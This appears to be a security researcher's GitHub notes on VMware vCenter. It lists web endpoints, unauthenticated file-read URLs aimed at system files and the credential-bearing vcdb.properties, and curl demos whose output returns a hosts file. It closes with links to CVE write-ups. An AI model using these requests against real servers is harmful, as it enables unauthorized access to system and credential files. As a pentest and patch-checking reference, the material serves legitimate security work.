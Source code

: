 - /sdk/vimServiceVersions.xml
- /vsphere-client/?csp
- /eam/vib?id=C:\\Windows\\System32\\drivers\\etc\\hosts
- /eam/vib?id=/etc/hosts
- /eam/vibd?id=/etc/hosts
- /eam/vibd?id=C:\\ProgramData\\VMware\\vCenterServer\\cfg\\vmware-vpx\\vcdb.properties
- /ui/vropspluginui/rest/services/checkmobregister
- /ui/vropspluginui/rest/services/uploadova
- /checkmobregister
- /updatetelemetryInfo
- /checkLicenseSuiteApi
- /checkVsanLicenseValidity
- /getvcdetails
- /getstatus
- /testvcconnection
- /testvropsconnection
- /dashboard
- /capacity
- /capacity/memory
- /capacity/cpu
- /capacity/storage
- /license/allLicenses
- /vcclusters
- /vccontention
- /vcclusteralerts
- /inventoryscoreboard
- /alerts
- /vropsURL
- /vcIP
- /serverguid
- /Isceienabled
- /alertdetails
- /vsanalertdetails
- /osdetails
- /vmdetails
- /drs
- 
- POST /vropsinstallation content-type=application/json; charset=UTF-8
- POST /uploadova
- POST /configurevrops content-type=application/json; charset=UTF-8
- C:\\ProgramData\\VMware\\vCenterServer\\logs\\vsphere-client\\logs\\dataservice.log
- C:\\ProgramData\\VMware\\vCenterServer\\cfg\\vsphere-client\\compatibility-matrix.xml
- C:\\ProgramData\\VMware\\vCenterServer\\cfg\\vsphere-client\\webclient.properties
- C:\\ProgramData\\VMware\\vCenterServer\\cfg\\vmware-vpx\\vcdb.properties


### Demo
```
$ curl -ik https://10.x.y.z/vsphere-client/?csp
HTTP/1.1 200 OK
Server: Apache-Coyote/1.1
Set-Cookie: JSESSIONID=CB600A5211B6C4B056FAFCFB86DEBDC805C0; Path=/vsphere-client/; Secure; HttpOnly
X-UA-Compatible: IE=edge
X-Frame-Options: SAMEORIGIN
Cache-Control: no-cache, no-store, must-revalidate
Pragma: no-cache
Expires: Thu, 01 Jan 1970 00:00:00 GMT
Content-Type: text/html;charset=utf-8
Content-Length: 7650
Date: Wed, 24 Feb 2021 06:09:04 GMT


curl -ik https://10.x.y.z/eam/vib?id=C:\\Windows\\System32\\drivers\\etc\\hosts
HTTP/1.1 200 OK
Transfer-Encoding: chunked
Date: Wed, 24 Feb 2021 05:55:37 GMT
Server: Apache

# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
```


### Ref
- https://twitter.com/jas502n/status/1316992409088094209
- [CVE-2021-21972 Vmware vcenter未授权任意文件漏洞分析](https://www.cnblogs.com/potatsoSec/p/14444897.html)
- [Unauthorized RCE in VMware vCenter](https://swarm.ptsecurity.com/unauth-rce-vmware/)
- https://attackerkb.com/topics/5nZX40suYA/cve-2021-21980
- [VMSA-2021-0027 的额外东东](https://articles.zsxq.com/id_1cnl8w2r5hsh.html)
- [Stealing administrative JWT's through post auth SSRF (CVE-2021-22056)](https://blog.assetnote.io/2022/01/17/workspace-one-access-ssrf/)
- https://github.com/shmilylty/cve-2021-22005-exp
- [VMware vCenter漏洞实战利用总结](https://mp.weixin.qq.com/s/0gg5TDEtL3lCb9pOnm42gg)
- https://www.horizon3.ai/vmware-authentication-bypass-vulnerability-cve-2022-22972-technical-deep-dive/
